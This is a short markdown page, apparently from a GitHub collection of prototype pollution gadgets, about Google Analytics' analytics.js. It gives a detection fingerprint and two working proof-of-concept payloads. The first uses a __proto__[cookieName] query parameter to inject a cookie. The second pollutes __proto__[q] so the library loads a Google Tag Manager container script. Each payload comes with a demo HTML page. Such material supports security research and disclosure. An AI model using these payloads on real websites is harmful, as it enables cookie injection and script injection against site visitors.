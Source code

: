 ## Google Analytics

### URL

https://developers.google.com/analytics/devguides/collection/analyticsjs

### JS Fingerprint

```js
return (typeof GoogleAnalyticsObject !== 'undefined')
```

### Vulnerable code fragment

https://www.google-analytics.com/analytics.js

### PoC

#### PoC #1

```
?__proto__[cookieName]=COOKIE%3DInjection%3B
```

```html
<script>
	Object.prototype.cookieName="Cookie=Injection;"
</script>

<script>
(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
})(window,document,'script','https://www.google-analytics.com/analytics.js','ga');

ga('create', 'UA-XXXXX-Y', 'auto');
ga('send', 'pageview');
</script>
```

#### PoC #2

**This gadget requires Arrays support**

```
?__proto__[q][0][0]=require&__proto__[q][0][1]=x&__proto__[q][0][2]=https://www.google-analytics.com/gtm/js%3Fid%3DGTM-WXTDWH7
```

```html
<script>
    Object.prototype.q = [['require', 'x', 'https://www.google-analytics.com/gtm/js?id=GTM-WXTDWH7']];
</script>
<script>
(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
})(window,document,'script','https://www.google-analytics.com/analytics.js','ga');
ga('create', 'UA-XXXXX-Y', 'auto');
ga('send', 'pageview');
</script>
```
